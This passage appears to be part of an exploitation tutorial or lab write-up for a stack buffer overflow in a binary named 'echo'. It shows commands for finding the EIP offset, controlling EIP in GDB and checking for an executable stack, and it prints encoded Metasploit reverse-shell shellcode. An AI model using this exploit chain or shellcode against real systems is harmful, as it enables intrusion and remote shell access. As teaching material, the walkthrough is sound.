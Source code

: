 Now we have the value `0x37694136` in EIP. Let's get the offset of this value within our input buffer (note that we supply the value in EIP to the `pattern_offset.rb` script):

```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37694136
[*] Exact match at offset 260
```

We can check that this is correct by placing the 4 bytes 0x00000000 at offset 260 within our input buffer and checking that EIP is set to this value in GDB:

```
root@kali:~# python -c 'print "A"*260 + "\x00\x00\x00\x00"' > input
root@kali:~# gdb ./echo -q
Reading symbols from /root/echo...(no debugging symbols found)...done.
gdb$ r < input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA -11280
Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x0000010B  EBX: 0xF7FBCFF4  ECX: 0xFFFFD3CC  EDX: 0xF7FBE360  o d I t S z A P c 
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xFFFFD4F8  EIP: 0x00000000
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002BError while running hook_stop:
Cannot access memory at address 0x0
0x00000000 in ?? ()
```

As expected, the value at EIP is 0x00000000. That's the first requirement of our exploit completed so let's move on to adding some shellcode.

### Placing Shellcode

We already know that we can store at least 256 bytes of data in buffer, which should be plenty of space for our shellcode. We can check whether this area is executable with the following command:

```
root@kali:~# readelf -l echo | grep STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```

The `RWE` output tells us that the stack is readable, writable and executable so we're free to go ahead and use the stack to host our shellcode. Now let's go ahead and generate some shellcode for a reverse shell using metasploit (be sure to update LHOST and LPORT as necessary):

```
root@kali:~# msfpayload linux/x86/shell_reverse_tcp LHOST=127.0.0.1 PORT=4444 R | msfencode -b '\x0a\x04' -e x86/shikata_ga_nai -t c
[*] x86/shikata_ga_nai succeeded with size 95 (iteration=1)

unsigned char buf[] = 
"\xbe\x05\x2e\xfb\xea\xda\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x12\x31\x72\x12\x83\xea\xfc\x03\x77\x20\x19\x1f\x46\xe7\x2a"
"\x03\xfb\x54\x86\xae\xf9\xd3\xc9\x9f\x9b\x2e\x89\x73\x3a\x01"
"\xb5\xbe\x3c\x28\xb3\xb9\x54\x6b\xeb\x64\x21\x03\xee\x98\x38"
"\x88\x67\x79\x8a\x56\x28\x2b\xb9\x25\xcb\x42\xdc\x87\x4c\x06"
"\x76\x37\x62\xd4\xee\x2f\x53\x78\x87\xc1\x22\x9f\x05\x4d\xbc"
"\x81\x19\x7a\x73\xc1";
```
